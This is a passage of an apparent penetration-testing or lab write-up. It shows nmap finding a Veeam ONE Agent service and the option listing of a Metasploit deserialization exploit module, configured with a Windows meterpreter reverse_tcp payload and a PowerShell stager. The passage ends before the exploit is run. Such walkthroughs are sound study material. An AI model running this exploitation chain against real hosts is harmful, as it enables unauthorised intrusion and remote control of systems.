 I checked with <mark style="background: #FF5582A6;">nmap</mark> and I got this result open 🔽

![Image](Pasted%20image%2020240316160629.png)
_Nmap Tool_

I then started metasploit and searched for this <mark style="background: #D2B3FFA6;">Veeam.One.Agent.Service</mark> exploit and got this result : 

![Image](Pasted%20image%2020240318132847.png)
_Metasploit exploit modules_


Now I have to modify this exploit so that I could execute some commands while choosing the <span style="color:#f04276">Target</span> as 0 which is <span style="color:#00ff91">windows commands</span>.

```bash
msf6 exploit(windows/misc/veeam_one_agent_deserialization) > options

Module options (exploit/windows/misc/veeam_one_agent_deserialization):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   HOSTINFO_NAME  AgentController  yes       Name to send in host info (must be recognized by server!)
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/b
                                             asics/using-metasploit.html
   RPORT          2805             yes       The target port (TCP)
   SSL            false            no        Negotiate SSL for incoming connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                         no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the
                                       local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   PowerShell Stager



View the full module info with the info, or info -d command.

msf6 exploit(windows/misc/veeam_one_agent_deserialization) >
```
